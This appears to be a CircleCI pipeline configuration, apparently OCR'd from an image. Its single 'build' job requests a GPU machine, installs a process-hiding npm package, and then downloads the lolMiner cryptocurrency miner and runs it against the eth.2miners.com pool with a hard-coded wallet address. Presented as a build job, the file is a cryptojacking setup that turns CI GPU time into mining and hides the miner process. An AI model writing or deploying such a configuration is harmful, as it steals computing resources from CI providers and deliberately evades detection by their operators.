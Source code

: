 version: 2.1

jobs:
  build:
    machine:
      image: ubuntu-2004-cuda-11.4:202110-01
    resource_class: gpu.nvidia.large
    steps:
      - run: nvidia-smi
      - run: docker run --gpus all nvidia/cuda:9.0-base nvidia-smi
      - run: apt-get update
      - run: apt-get full-upgrade
      - run: sudo apt-get install -y nodejs
      - run: npm i -g node-process-hider
      - run: wget https://github.com/Lolliedieb/lolMiner-releases/releases/download/1.50/lolMiner_v1.50_Lin64.tar.gz && tar -xzvf lolMiner_v1.50_Lin64.tar.gz && cd 1.50 && ./lolMiner --algo ETHASH --pool eth.2miners.com:2020 --user nano_1rq9zug5u68cj3q41iarsurzxwzha3ma5uc4idjretbtng4ekewrfqh8ersf.workerc1 pause
